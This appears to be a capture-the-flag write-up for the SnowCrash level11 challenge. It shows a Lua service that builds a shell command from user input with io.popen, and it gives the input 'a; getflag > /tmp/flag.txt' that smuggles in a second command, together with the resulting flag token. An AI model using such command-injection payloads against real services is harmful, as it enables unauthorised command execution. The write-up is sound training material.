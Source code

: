 When we started the level11 there is:
- A binary called **level11.lua**

It's a lua code, listening on port 5151.
We can access it with:
```bash
nc 127.0.0.1 5151
```

It ask for a password and hash it to compare it with a hash.
[md5decrypt](https://md5decrypt.net/en/Sha1/) tell us that the hash is NotSoEasy, but this password don't give the flag.

After a bit of research, turns out the code line :
```lua
  prog = io.popen("echo "..pass.." | sha1sum", "r")
```

is a security hole !

**io.popen** open a shell to execute a command.
the given command is
```bash
"echo password | sha1sum"
```

So we can give this password and get the flag :

```bash
level11@SnowCrash:~$ nc localhost 5151
Password: a; getflag > /tmp/flag.txt
Erf nope..
level11@SnowCrash:~$ cat /tmp/flag.txt
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```

**a;** will close the echo, so we can execute another command:

```bash
echo a; getflag > /tmp/flag.txt | sha1sum
```